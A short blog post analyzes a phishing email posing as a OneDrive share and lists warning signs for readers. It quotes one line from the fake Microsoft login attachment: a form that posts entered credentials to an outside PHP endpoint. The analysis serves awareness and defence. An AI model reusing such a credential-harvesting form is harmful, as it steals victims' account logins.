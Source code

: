 Today&rsquo;s phishing email (Subject    Re: Contract Lease Agreement)
======================================================================
.. post:: 14, Apr, 2023
   :category: Uncategorized
   :author: jiangshengvc
   :nocomments:

The email body is as the following

**<your email id>  has recieved a file to your onedrive "2023 Contract
Agreement .xlsx**"

When and where did this happen

Date:4/13/2023 4:50:56 p.m.

Browser: Chrome

Operating System: Windows 10

*You are receiving this information because someone shared a file to
your OneDrive.See details in the attached file*.

I have marked red flags with red background.

1 Microsoft does not address you by your login. Microsoft has your name
and prefix/suffix info. 

2 Microsoft would not misspell words.

3 Microsoft would not ask to open attachment.

the Microsoft Message Header Analyzer tool (mha.azurewebsites.net) has
the correct Received Headers, which means the sender address is not
spoofed. That means, unfortunately, the sender address is compromised.
It is easy to see why:

The attachment is a fake Microsoft login page that looks exactly like
the real one. However the address bar is a local file (where the
attached file is) instead of Microsoft’s domain (address bar may be
hidden on mobile browsers). If Microsoft wants you to login, it would
simply link to a Microsoft owned address.

In the source code of the attachment you can see the following section:

<form action="https://4f-ip.com/sharepoint%20(1)%20(2).php"
autocomplete="" method="post">

the victim who open the attachment and blindly entered Microsoft account
and password would have login info sent to the hacker’s address instead.

Moral of the story:

Do not interact with email addressing you by login name (Equifax leaked
names of half of US population so this is not exactly fool-proof).

Check for misspellings.

Do not interact with emails with attachments unless you can verify the
sender is legitimate.

Do not open attachments from strangers if possible.

Always check the address bar before entering password.
